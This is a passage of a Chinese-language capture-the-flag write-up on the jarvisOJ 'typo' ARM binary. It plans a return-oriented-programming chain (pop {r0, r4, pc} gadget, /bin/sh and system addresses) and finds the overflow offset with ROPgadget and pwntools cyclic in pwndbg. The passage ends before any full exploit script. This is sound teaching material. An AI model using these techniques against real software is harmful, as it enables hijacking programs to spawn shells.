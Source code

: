 我们只需要控制第一个参数，因此可以选择 `pop {r0, r4, pc}` 这条 gadgets, 来构造如下的栈结构
```
+-------------+
|             |
|  padding    |
+-------------+
|  padding    | <- frame pointer
+-------------+ 
|gadgets_addr | <- return address
+-------------+
|binsh_addr   |
+-------------+
|junk_data    |
+-------------+
|system_addr  |
+-------------+
```

这时还需要 padding 的长度和 system 以及 /bin/sh 的地址， /bin/sh 的地址用 ROPgadget 就可以找到
```bash
jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
Strings information
============================================================
0x0006cb70 : /bin/sh
```
padding 的长度可以使用 pwntools 的 **cyclic** 来很方便的找到
```assembly
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 R0   0x0
 R1   0xfffef024 ◂— 0x61616161 ('aaaa')
 R2   0x7e
 R3   0x0
 R4   0x62616162 ('baab')
 R5   0x0
 R6   0x0
 R7   0x0
 R8   0x0
 R9   0xa5ec ◂— push   {r3, r4, r5, r6, r7, r8, sb, lr}
 R10  0xa68c ◂— push   {r3, r4, r5, lr}
 R11  0x62616163 ('caab')
 R12  0x0
 SP   0xfffef098 ◂— 0x62616165 ('eaab')
 PC   0x62616164 ('daab')
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
Invalid address 0x62616164








```